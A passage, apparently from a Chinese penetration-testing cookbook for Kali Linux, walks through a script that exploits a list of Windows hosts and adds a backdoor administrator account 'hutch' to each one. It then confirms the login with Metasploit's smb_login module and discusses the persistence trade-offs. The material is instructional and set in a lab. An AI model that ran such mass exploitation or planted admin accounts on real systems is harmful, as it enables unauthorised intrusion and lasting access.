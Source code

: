 ```sh
    echo "Exploiting $ip and adding user $user" 
done 
```

由于载荷不同，此脚本与以前的多线程利用脚本不同。 这里，在成功利用时会依次执行两个命令。 这两个命令中的第一个命令创建一个名为`hutch`的新用户帐户，并定义关联的密码。 第二个命令将新创建的用户帐户添加到本地`Administrators`组：

```
root@KaliLinux:~# ./multipwn.sh 
Usage: #./script <host file> <username> <password> 
root@KaliLinux:~# ./multipwn.sh iplist.txt hutch P@33word 
Exploiting 172.16.36.132 and adding user hutch 
Exploiting 172.16.36.158 and adding user hutch 
Exploiting 172.16.36.225 and adding user hutch

```

如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 该使用描述表明，该脚本应该以一个参数来执行，该参数指定了包含目标 IP 地址列表的文本文件的文件名。 一旦以这个参数执行，会开始弹出一系列新的终端。 这些终端中的每一个将运行输入列表中的 IP 地址之一的利用序列。 原始执行终端将在执行时输出进程列表，并显是在每个进程上添加的新用户帐户。 在每个终端中完成利用序列之后，可以通过诸如 RDP 的集成终端服务，或通过远程 SMB 认证来访问系统。 为了演示添加了该帐户，Metasploit SMB_Login 辅助模块用于使用新添加的凭据远程登录到受攻击的系统：

```
msf > use auxiliary/scanner/smb/smb_login 
msf  auxiliary(smb_login) > set SMBUser hutch 
SMBUser => hutch 
msf  auxiliary(smb_login) > set SMBPass P@33word 
SMBPass => P@33word 
msf  auxiliary(smb_login) > set RHOSTS 172.16.36.225 
RHOSTS => 172.16.36.225 
msf  auxiliary(smb_login) > run

[*] 172.16.36.225:445 SMB - Starting SMB login bruteforce 
[+] 172.16.36.225:445 - SUCCESSFUL LOGIN (Windows 5.1) hutch :  [STATUS_ SUCCESS] 
[*] Username is case insensitive 
[*] Domain is ignored 
[*] Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed
```

`SMB_Login`辅助模块的结果表明，使用新创建的凭据登录成功。 然后，这个新创建的帐户可以用于进一步的恶意目的，或者可以使用脚本来测试帐户是否存在，来验证漏洞的利用。

### 工作原理

通过在每个利用的系统上添加用户帐户，攻击者可以继续对该系统执行后续操作。 这种方法有优点和缺点。 在受沦陷系统上添加新帐户比攻破现有帐户更快，并且可以立即访问现有的远程服务（如 RDP）。 但是，添加新帐户并不非常隐秘，有时可以触发基于主机的入侵检测系统的警报。
